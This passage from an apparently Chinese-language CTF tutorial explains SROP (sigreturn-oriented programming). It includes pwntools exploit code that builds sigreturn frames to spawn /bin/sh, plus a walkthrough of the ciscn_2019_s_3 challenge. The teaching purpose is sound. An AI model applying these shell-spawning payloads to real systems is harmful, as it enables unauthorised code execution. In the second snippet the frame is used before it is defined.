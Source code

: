 ```python
sh.send(read_frame_payload)#调用read函数,等待接收
sh.send(read_frame_payload[8:8+15])#总共是15个，使得rax为15
sleep(1)
execve = SigreturnFrame()
execve.rax=constants.SYS_execve
execve.rdi=stack_addr + 0x120
execve.rsi=0x0
execve.rdx=0x0
execve.rsp=stack_addr
execve.rip=syscall_ret
execv_frame_payload=p64(start_addr)+p64(syscall_ret)+str(execve)#返回start_addr等待输入
print len(execv_frame_payload)
execv_frame_payload_all=execv_frame_payload+(0x120-len(execv_frame_payload ))*'a'+'/bin/sh\x00'#填充到0x120，然后再填上'/bin/sh'
sh.send(execv_frame_payload_all)
sleep(1)
sh.send(execv_frame_payload_all[8:8+15])
sh.interactive()
```

成功拿到flag:

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/SROP/s11.png?x-oss-process=style/watermark)

## 2.5 一道简单的例题

题目：https://buuoj.cn/challenges#ciscn_2019_s_3 

反汇编观察vuln函数：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/SROP/s12.png?x-oss-process=style/watermark)

- proc定义子程序的伪指令,它和endp 分别表示子程序定义的开始和结束两者必须成对出现。
- var存储字节的数组，长度为0x10
- xor rax rax，异或操作，将rax寄存器置为0。
- mov edx, 400h 将edx寄存器的值设置为了0x400
- lea rsi, [rsp+var_10] 将rsp+var_10的地址传入寄存器rsi
- mov rdi, rax，将rax寄存器的值（也就是0）传给rdi

因此，第一个syscall也就相当于read(0,var,400h)，即这里可以溢出，溢出大小为0x10。类似地。第二个syscall也就相当于write(1,var,30h)，将var地址输出。

我们的思路是，通过触发系统中断sigreturn，设置寄存器的值，使其调用execve（‘bin/sh,0,0）

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/SROP/s13.png?x-oss-process=style/watermark)



sigreturn的调用号为15，再给出的gadgets中，刚好有mov rax, 0Fh，也就是把rax置为15，execve的调用号为59，gadgets中，也有mov rax, 3Bh。

我们首先通过read、write正常执行，将bin/sh字符正常写入，并获得其地址，然后再次返回到vuln执行。这时我们先通过read函数溢出，转到0x04004DA执行，使rax为15，然后返回的时候（mov rax, 0Fh的下一条是ret），使其转到syscall（第二个syscall避免rax被改变）执行，就触发了系统中断，此时将我们设置好的寄存器传入，使其返回的时候执行syscall，这样就可以执行execve了。

```python
payload1='/bin/sh\x00'.ljust(16,'a')+p64(vuln_addr)#写入bin/sh
payload2='a'*16+p64(sigreturn_addr)+p64(syscall_addr)+str(frameExecve)#利用pwntools实现execve的寄存器布置（其实也可以自己来）
frameExecve=SigreturnFrame() 
frameExecve.rax =constants.SYS_execve #系统调用号，也就是rax=59
frameExecve.rdi =binsh_addr #bin/sh的地址
frameExecve.rsi =0  #execve的其它参数
frameExecve.rdx =0  #同上
frameExecve.rip =syscall_addr #返回到syscall
```
